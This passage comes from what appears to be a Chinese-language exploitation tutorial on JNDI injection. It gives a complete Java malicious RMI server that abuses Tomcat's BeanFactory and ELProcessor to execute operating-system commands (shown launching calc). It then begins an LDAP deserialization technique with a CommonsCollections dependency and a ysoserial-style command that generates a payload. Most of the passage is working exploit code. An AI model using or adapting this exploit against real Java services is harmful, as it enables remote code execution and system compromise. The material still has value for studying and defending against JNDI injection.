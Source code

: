EXP  
```
package jndi.bypass;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3377);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}

```  
  
‍  
  
‍  
## 利用LDAP返回序列化数据，触发本地Gadget  
  
其实这里就是在分析LDAP+JNDI的时候他有个类似swich的东西，当时传入的是引用类，所以走了引用类的逻辑，但是如果我们传入的是序列化的对象，并且后续会被反序列化，那么就相当于存在了一个天然的反序列化入口了，就可以触发本地的Gadget了  
  
‍  
  
本地调试下 先添加CC的依赖  
```
       <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>

```  
  
‍  
```
java -jar y4-yso.jar CommonsCollections6 "calc" > 1.ser | base64 

```  
  